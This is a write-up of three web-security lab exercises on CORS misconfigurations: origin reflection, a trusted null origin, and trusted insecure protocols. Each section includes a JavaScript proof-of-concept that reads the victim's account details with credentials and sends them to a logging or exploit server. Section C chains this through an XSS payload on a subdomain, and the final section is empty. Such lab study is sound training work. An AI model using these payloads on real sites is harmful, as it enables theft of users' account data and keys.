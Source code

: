 # Title: Cross origin resource sharing , Web Academy
By: Nathan Hailu
Description: Labs are solved and their write up is here.
Date: Mon 12/12/2022

================= { START } ==============================

A) CORS vulnerability with basic origin reflection

    When we try to test CORS we will see the response if it contains the acess-control-allow-origin or acess-control-allow-credentials header. if it have that we will try to use the origin header on the request and try to see if he pass or block it. if it pass we can exploit it with some CORS POC scripts
       
                <script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
            req.withCredentials = true;
            req.send();

            function reqListener() {
                location='/log?key='+this.responseText;
            };
            </script>


B) CORS vulnerability with trusted null origin

    Thanks to developers they have forgoted 'null' by whitelisting it for local work. so first, we will try to add origin: example.con then we will try origin: * but when we try origin: null  it will responde with so Access-Control-Allow-Origin: null boom! we just need to run CORS POC script.

                <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
            req.withCredentials = true;
            req.send();
            function reqListener() {
                location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
            };
            </script>"></iframe>

C) CORS vulnerability with trusted insecure protocols 

    TO detect we can try different methods.
            1, origin: *
            2, origin: https://attacker.com
            3, origin: null
            4, origin: https://attacker.OriginalURL.com
            5, origin: https://OriginalURL.com.attacker.com
            
        These things have to give {
            Access-Control-Allow-Origin: https://attacker.OriginalURL.com
            Access-Control-Allow-Credentials: true
        }
    on this lab when we try all they wont work except the method 4, there for we will try to find a subdomain, for that you can use tools, also you can check the site endpoints.
    finally, you will get stock.webacademy.com domain so we will try any open vuln on it if the site have some vuln like xss, we will craft our JS code like below.

    <script>
    document.location="http://stock.0a55009e038cde09c07b54ee00230042.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a55009e038cde09c07b54ee00230042.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a13006e037fdecbc0ae53ee0174000f.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
    </script>

D) 